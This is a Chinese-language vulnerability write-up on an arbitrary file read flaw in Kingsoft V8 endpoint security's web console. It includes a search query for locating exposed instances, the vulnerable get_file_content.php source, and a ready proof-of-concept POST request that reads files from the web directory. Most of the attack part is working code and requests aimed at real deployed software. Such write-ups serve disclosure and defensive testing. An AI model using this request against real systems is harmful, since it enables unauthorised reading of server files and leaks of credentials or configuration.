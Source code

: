 # 金山 V8 终端安全系统 get_file_content.php 任意文件读取漏洞

## 漏洞描述

金山 V8 终端安全系统 存在任意文件读取漏洞，攻击者可以通过漏洞下载服务器任意文件

## 漏洞影响

```
金山 V8 终端安全系统
```

## 网络测绘

```
title="在线安装-V8+终端安全系统Web控制台"
```

## 漏洞复现

登录页面

![image-20220525150449778](images/202205251504895.png)

存在漏洞的文件`/Console/receive_file/get_file_content.php`

```
<?php  
  if(stripos($_POST['filepath'],"..") !== false) {
    echo 'no file founggd';
    exit();
  }
  ini_set("open_basedir", "../");
  $file_path = '../'.iconv("utf-8","gb2312",$_POST['filepath']);
  if(!file_exists($file_path)){
    echo 'no file founggd';
    exit();
  }  

  $fp=fopen($file_path,"r");  
  $file_size=filesize($file_path); 

  $buffer=5024;  
  $file_count=0;  

  while(!feof($fp) && $file_count<$file_size){  
    $file_con=fread($fp,$buffer);  
    $file_count+=$buffer;  
    echo $file_con;  
  }  
  fclose($fp);  
?>
```



文件中没有任何的过滤 通过 filepaht 参数即可下载任意文件

由于不能出现 `..` ，所以只能读取web目录下的文件

```
POST /receive_file/get_file_content.php

filepath=login.php
```

![image-20220525150700239](images/202205251507315.png)